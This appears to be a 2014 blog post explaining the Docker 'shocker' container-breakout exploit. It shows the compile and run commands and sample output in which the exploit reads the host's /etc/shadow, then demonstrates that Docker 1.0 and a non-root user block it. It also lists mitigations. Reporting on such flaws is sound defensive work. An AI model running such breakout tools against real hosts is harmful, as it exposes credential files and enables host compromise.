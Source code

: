 ```yaml
---
layout: post
title: "Docker Container Break-out Exploit"
date: 2014-06-19 12:00:00
categories: docker,security
---
```


Amidst various blog postings on Docker, a [security issue][docker_security_exploit] announced yesterday that detailed an exploit of [Docker][Docker] that makes it possible to do container breakout. This exploit would allow the ability to any data, including sensitive data, on the host system.

How does it work? Essentially, the file system struct of the container is shared with the host which allows a program on the container to run that can open file handles-- which consist of a 64-bit string and a 32-bit inode number. Starting at an inode value of 2, which is / (root filesystem), the file system path is then walked and the use of brute force the 32-bit inode number to find the desired file.

The code to test this,  [shocker.c][shocker_dot_c], which was developed by Sebastian Krahmer (Thank you!) can be used to demonstrate this exploit, and indeed I was able to:

    root@cd0401b8027e:~# gcc -o shocker -Wall -std=c99 -O2 shocker.c -static

    iroot@cd0401b8027e:~# ./shocker
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]

    <enter>
    ... hit enter ..
    [*] Resolving 'etc/shadow'
    [*] Found etc
    [+] Match: etc ino=262145
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (etc) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0x01, 0x00, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00};
    [*] Resolving 'shadow'
    [*] Found .
    [*] Found ..
    [*] Found hdparm.conf
    [*] Found gnome-app-install
    [*] Found hosts.deny
    [*] Found sysfs.conf
    [*] Found sudoers.d
    [*] Found securetty
    [*] Found passwd-
    [*] Found rpc
    [*] Found lintianrc
    [*] Found usb_modeswitch.d
    [*] Found rc.local
    [*] Found rcS.d
    [*] Found gtk-3.0

       ...  <snip> list of numerous files </snip> ...
    [*] Found shadow
    [+] Match: shadow ino=310601
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (shadow) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0x49, 0xbd, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Got a final handle!
    [*] #=8, 1, char nh[] = {0x49, 0xbd, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Win! /etc/shadow output follows:
    root:!:16108:0:99999:7:::
    daemon:*:15819:0:99999:7:::
    bin:*:15819:0:99999:7:::
    sys:*:15819:0:99999:7:::
    sync:*:15819:0:99999:7:::
    games:*:15819:0:99999:7:::
    man:*:15819:0:99999:7:::
    lp:*:15819:0:99999:7:::
    mail:*:15819:0:99999:7:::
    news:*:15819:0:99999:7:::
    uucp:*:15819:0:99999:7:::
    proxy:*:15819:0:99999:7:::
    www-data:*:15819:0:99999:7:::
    backup:*:15819:0:99999:7:::
    list:*:15819:0:99999:7:::
    irc:*:15819:0:99999:7:::
    gnats:*:15819:0:99999:7:::
    nobody:*:15819:0:99999:7:::
    libuuid:!:15819:0:99999:7:::
    syslog:*:15819:0:99999:7:::
    messagebus:*:15819:0:99999:7:::
    avahi-autoipd:*:15819:0:99999:7:::
    usbmux:*:15819:0:99999:7:::
    dnsmasq:*:15819:0:99999:7:::
    whoopsie:*:15819:0:99999:7:::
    kernoops:*:15819:0:99999:7:::
    rtkit:*:15819:0:99999:7:::
    speech-dispatcher:!:15819:0:99999:7:::
    lightdm:*:15819:0:99999:7:::
    avahi:*:15819:0:99999:7:::
    colord:*:15819:0:99999:7:::
    pulse:*:15819:0:99999:7:::
    hplip:*:15819:0:99999:7:::
    saned:*:15819:0:99999:7:::
    patg:xkjsljdflsjlfjsljflswjwflkjw:16119:0:99999:7:::
    sshd:*:16108:0:99999:7:::
    lxc-dnsmasq:!:16108:0:99999:7:::
    rabbitmq:!:16108:0:99999:7:::
    mysql:!:16108:0:99999:7:::
    libvirt-qemu:!:16120:0:99999:7:::
    libvirt-dnsmasq:!:16120:0:99999:7:::
<br />
Oops! ```/etc/shadow``` is definitely not a file on my host I want to be visible by a container.

    $ docker -v
    Docker version 0.11.1, build fb99f99

<br />
With a newer version of Docker (1.0.0), this is not a problem:

    docker -v
    Docker version 1.0.0, build 63fe64c

    root@5698e0f422f2:/# ./shocker
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]

    <enter>

    [*] Resolving 'etc/shadow'
    [-] open_by_handle_at: Operation not permitted

<br />
Do note though, one must not rest upon their laurels or getting to comfortable with the default configuration despite being 1.0.

Some of the suggested fixes are to use apparmor or selinux containment, map trust groups to separate machines or to avoid running the app as root. I think the quickest fix and one that I tested and found easiest was running as a regular user. On my first instance where the exploit worked, using an ```ubuntu``` user solved the issue:

    ubuntu@cd0401b8027e:~$ ./shocker
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]

    <enter>

    [-] open: Permission denied

<br />
The article also states that there will be further enhancements to [Docker][Docker] including [user-namespaces][user_namespaces]. For the full scoop, the [article is here][docker_security_exploit]

[user_namespaces]: http://lwn.net/Articles/528078/
[docker_security_exploit]: https://news.ycombinator.com/item?id=7909622
[shocker_dot_c]: http://stealth.openwall.net/xSports/shocker.c
[Docker]: http://docker.io
[Ansible]: http://www.ansible.com/home
[ansible_dynamic_inventory]: http://docs.ansible.com/intro_dynamic_inventory.html#dynamic-inventory
[ansible_example_repository]: https://github.com/ansible/ansible-examples
[ansible_documentation]: http://docs.ansible.com/
[ansible_apt_module]: http://docs.ansible.com/apt_module.html
[ansible_docker_module]: http://docs.ansible.com/docker_module.html
[ansible_docker_image_module]: http://docs.ansible.com/docker_image_module.html
[ansible_docker_facts_module]: https://github.com/CaptTofu/ansible/tree/docker_facts
[ansible_docker_dynamic_inventory]: https://github.com/ansible/ansible/blob/devel/plugins/inventory/docker.py
[docker-py]: https://github.com/dotcloud/docker-py
[docker_intro_blog]: http://patg.net/containers,virtualization,docker/2014/06/05/docker-intro/
[docker_install_blog]: http://patg.net/containers,virtualization,docker/2014/06/09/docker-install/
[docker_using_blog]: http://patg.net/containers,virtualization,docker/2014/06/10/using-docker/
[ansible_playbooks]: http://docs.ansible.com/playbooks.html
[ansible_example_playbook_repository]: https://github.com/ansible/ansible-examples
[docker_cli]: https://docs.docker.com/reference/commandline/cli/
[AnsibleFest]: http://www.marketwired.com/press-release/speakers-from-twitter-google-twilio-edx-rackspace-headline-ansiblefest-nyc-2014-1902858.htm
[ansible_docker_presentation]: http://www.slideshare.net/PatrickGalbraith/docker-ansible-34909080

